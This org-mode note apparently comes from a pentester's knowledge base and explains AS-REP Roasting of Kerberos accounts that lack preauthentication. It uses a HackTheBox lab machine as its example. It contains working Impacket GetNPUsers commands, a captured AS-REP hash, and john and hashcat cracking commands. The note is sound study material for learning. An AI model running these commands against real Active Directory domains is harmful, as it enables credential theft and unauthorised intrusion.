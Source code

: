 :PROPERTIES:
:ID:       f6604f23-26b0-4da6-9c3d-f240b929526a
:END:
#+title: AS-REP Roasting
#+hugo_base_dir:../
#+filetags: :impacket:pentest:kerberoasting:kerberos:Windows:


* AS-REP Roasting
Two key attacks on [[id:d7c3d319-5fde-4254-95ca-8b3cc2534aee][Kerberos]] security in Active Directory include [[id:78221ca4-7b41-4377-aa13-88d50a4fd30d][kerberoasting]] and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF_DONT_REQUIRE_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [[id:e935d19d-d441-4bdf-b0fd-8886eb807c7a][Impacket]] tool ~GetNPUsers.py~ to try to get a hash for each user

#+begin_src shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
#+end_src

** List of users
#+begin_src sh -n
impacket-GetNPUsers -dc-ip <target-ip> example.local/ -no-pass -usersfile users.txt
#+end_src

** Crack hash or use pass-the-hash
#+begin_src sh -n
john --format=krb5asrep --wordlist=wordlist.txt hash.txt
# or
hashcat -m 18200 -a 0  hash.txt wordlist.txt
#+end_src

The hash is quickly cracked with =hashcat=.
